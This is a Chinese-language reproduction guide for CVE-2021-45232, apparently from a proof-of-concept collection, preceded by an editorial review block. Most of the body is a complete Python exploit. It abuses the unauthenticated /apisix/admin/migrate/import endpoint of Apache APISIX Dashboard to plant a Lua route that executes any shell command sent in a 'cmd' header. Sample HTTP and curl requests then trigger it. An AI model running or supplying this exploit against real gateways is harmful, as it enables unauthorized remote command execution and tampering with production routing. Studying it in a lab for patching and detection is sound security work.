





# Apache APISIX Dashboard API权限绕过导致RCE CVE-2021-45232

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Apache APISIX Dashboard鉴权，APISIX数据面执行
- 本文讨论：CVE-2021-45232 migrate/import与export绕过
- 版本、权限与配置前提：Dashboard&lt;2.10.1声称，测试2.9；与APISIX共etcd，数据面端口另可达
- 资料类型：APISIX Dashboard配置导入到Lua执行复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- IoT分类错误，应API网关管理服务
- CRC末尾是4字节不是4字符，export_data用r.text切片可能破坏二进制；该函数未实际调用
- 导入配置会修改/可能替换路由等状态且不恢复，不是纯检测；Counsumers拼写须核schema
- 前于2.10.1缺受影响下界，不应所有历史版本自动覆盖
- 已落实的文本修订：“最后4个字符”改为“最后4个字节”；HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证
- 导入配置可能覆盖路由或其他 etcd 状态；CRC 尾部是四字节二进制校验值，不是四个文本字符。原函数按 r.text 切片可能破坏导出字节，未调用函数也不构成该流程验证。

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留

### 待核与来源

- 官方起始版本、导入合并/覆盖行为与截图待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


Apache APISIX是一个动态、实时、高性能API网关，而Apache APISIX Dashboard是一个配套的前端面板。

Apache APISIX Dashboard 2.10.1版本前存在两个API`/apisix/admin/migrate/export`和`/apisix/admin/migrate/import`，他们没有经过`droplet`框架的权限验证，导致未授权的攻击者可以导出、导入当前网关的所有配置项，包括路由、服务、脚本等。攻击者通过导入恶意路由，可以用来让Apache APISIX访问任意网站，甚至执行LUA脚本。

参考链接：

- https://apisix.apache.org/zh/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp

## 漏洞环境

Vulhub执行如下命令启动一个有漏洞的Apache APISIX Dashboard 2.9：

```
docker-compose up -d
```

然后访问`http://your-ip:9000/`即可看到Apache APISIX Dashboard的登录页面。



## 漏洞复现

利用`/apisix/admin/migrate/export`和`/apisix/admin/migrate/import`两个Apache APISIX Dashboard提供的未授权API，我们可以简单地导入一个恶意配置文件，其中包含我们构造的LUA脚本：



注意的是，这个配置文件的最后4个字节是当前文件的CRC校验码，所以最好通过自动化工具来生成和发送这个利用数据包，比如[这个POC](https://github.com/wuppp/cve-2021-45232-exp)。

**apisix_dashboard_rce.py**

```python
#!/usr/bin/env python3
import zlib
import json
import random
import requests
import string
import sys
from urllib3.exceptions import InsecureRequestWarning

# Suppress only the single warning from urllib3 needed.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)


eval_config = {
    "Counsumers": [],
    "Routes": [
        {
            "id": str(random.randint(100000000000000000, 1000000000000000000)),
            "create_time": 1640674554,
            "update_time": 1640677637,
            "uris": [
                "/rce"
            ],
            "name": "rce",
            "methods": [
                "GET",
                "POST",
                "PUT",
                "DELETE",
                "PATCH",
                "HEAD",
                "OPTIONS",
                "CONNECT",
                "TRACE"
            ],
            "script": "local file = io.popen(ngx.req.get_headers()['cmd'],'r') \n local output = file:read('*all') \n file:close() \n ngx.say(output)",
            "status": 1
        }
    ],
    "Services": [],
    "SSLs": [],
    "Upstreams": [],
    "Scripts": [],
    "GlobalPlugins": [],
    "PluginConfigs": []
}


def random_str():
    return ''.join(random.choices(string.ascii_letters + string.digits, k=6))


def calc_crc(data):
    crc32 = zlib.crc32(data) & 0xffffffff
    return crc32.to_bytes(4, byteorder="big")


def export_data(url):
    r = requests.get(url + "/apisix/admin/migrate/export", verify=False)
    return r.text[:-4]


def import_data(url, data):
    data = json.dumps(data).encode()
    crc32 = calc_crc(data)

    files = {"file": ("data", data + crc32, "text/data")}
    resp = requests.post(url + "/apisix/admin/migrate/import", files=files, verify=False)
    # print(resp.text)
    if resp.json().get("code", -1) == 0:
        return True
    else:
        return False


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("python " + sys.argv[0] + " http://127.0.0.1:9000")
        exit()
    
    url = sys.argv[1]
    if url.endswith("/"):
        url = url[:-1]

    uri = random_str()
    eval_config["Routes"][0]["uris"] = [ "/" + uri]
    eval_config["Routes"][0]["name"] = uri

    if import_data(url, eval_config):
        print("attack success")
        print("uri is: " + "/" + uri)
    else:
        print("attack error")
```



添加完恶意路由后，你需要访问Apache APISIX中对应的路径来触发前面添加的脚本。值得注意的是，Apache APISIX和Apache APISIX Dashboard是两个不同的服务，Apache APISIX Dashboard只是一个管理页面，而添加的路由是位于Apache APISIX中，所以需要找到Apache APISIX监听的端口或域名。

在当前环境下，Apache APISIX监听在9080端口下。我们发送数据包：

```http
GET /LQsRF0 HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0
```



也可以通过之前的POC实现命令执行：

```
curl http://your-ip:9080/LQsRF0 -H "cmd: id"
```



可见，我们在Header中添加的`CMD`头中的命令已被执行。

这个漏洞是Apache APISIX Dashboard的漏洞，而Apache APISIX无需配置IP白名单或管理API，只要二者连通同一个etcd即可。


---

> 来源：Threekiii/Awesome-POC
